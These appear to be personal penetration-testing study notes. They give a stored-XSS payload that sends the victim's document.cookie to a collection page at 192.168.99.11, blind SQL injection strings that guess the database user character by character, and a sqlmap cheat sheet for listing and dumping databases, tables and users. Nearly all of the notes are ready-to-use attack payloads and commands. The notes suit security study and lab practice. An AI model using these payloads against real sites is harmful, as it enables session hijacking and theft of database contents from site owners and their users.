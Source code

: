 payload to steal cookies: XSS Stored
we need to have a page to send the cookies, in this case we have get.php
but in  real scenario we gottta have a page set up to be able to do that.

```bash
<script>
var i = new Image();
i.src="http://192.168.99.11/get.php?cookies="+document.cookie; 
</script>
```

after that, we go to the ip 99.11 and get the file with the stolen cookie.


## MYSQL INJECTION

```bash
' or substr(user(), 1, 1) = 'a
' or substr(user(), 1, 1) = 'b
```

after finding the first letter

```bash
' or substr(user(), 2, 1) = 'a
```

- go to the second one.

- guessing the current user.


## SQLMap

```bash
sqlmap -u <URL> -p <injection parameter> [options]
```

example:

```bash
sqlmap -u 'vulnerable url' -p id --technique=U #using UNION
```

with POST:

```bash
sqlmap -u 'url' --data <post string> -p parameter [options] # u can get the post string with burp
```

```
-b  - banner
--tables
--current-db <name>
--columns
--dump
-v3 --fresh-queries #to see what payload the sqlmap used
--dbs #to see the databases availables
--users #to see the users
-D #set the database of your choice
-T #set the tables of your choice
-C #set column of your choice
-r #request, we can get from burp
--technique=U #UNION attack
--technique=B #boolean-based attacks
--flush-session #if you need to clear the logs for a rerun test or smt like that #logs > /usr/share/sqlmap/output/
```
